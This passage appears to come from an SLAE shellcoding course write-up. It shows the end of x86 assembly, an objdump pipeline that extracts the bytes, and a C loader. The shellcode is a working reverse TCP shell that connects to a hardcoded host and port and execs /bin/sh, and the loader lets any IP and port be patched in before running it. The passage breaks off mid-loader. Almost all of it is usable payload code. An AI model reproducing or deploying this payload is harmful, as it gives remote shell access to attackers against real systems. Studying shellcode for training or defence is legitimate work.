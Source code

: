 ```asm
  push ecx ; Push NULL
  push ebx ; Push *filename
  mov ecx, esp ; Store memory address pointing to memory address of "/bin/sh"
  mov al, 0xb
  int 0x80 ; Execute SHELL


; EXIT
  xor eax, eax
  mov al, 1;
  int 0x80;
```

**_Getting the Shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment2.o assignment2.nasm
root@kali:~/courses/slae/exam# ld -o assignment2 assignment2.o

root@kali:~/courses/slae/exam# objdump -d ./assignment2|grep '[0-9a-f]:'|grep
-v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed
's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\x31\xf6\x31\xff\xb3\x02\xb1\x01\xb2\x06\x66
\xb8\x67\x01\xcd\x80\x89\xc3\x68\xc0\xa8\xca\x81\x66\x68\x11\x5c\x66\x6a\x02\x89
\xe1\xb2\x10\x66\xb8\x6a\x01\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd
\x80\xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```


**_shellcode.c_**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/in.h>
#include <arpa/inet.h> // inet_addr

#define IP_OFFSET 27
#define PORT_OFFSET 33

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = \
"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\x31\xf6\x31\xff\xb3\x02\xb1\x01\xb2\x06\x66
\xb8\x67\x01\xcd\x80\x89\xc3\x68\xc0\xa8\xca\x81\x66\x68\x11\x5c\x66\x6a\x02\x89
\xe1\xb2\x10\x66\xb8\x6a\x01\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd
\x80\xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

    if (argc > 2) {
        printf("Addr: %s\n", argv[1]);
        in_addr_t ip = inet_addr(argv[1]);
        unsigned short porti = htons(atoi(argv[2]));
        memcpy(&shellcode[IP_OFFSET], &ip, 4);
        memcpy(&shellcode[PORT_OFFSET], &porti, 2);
    } else {
        printf("Please enter an IP address and port number!\n");
        printf("Usage: %s <ip-address> <port>\n\n", argv[0]);
        return -1;
    }

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;
```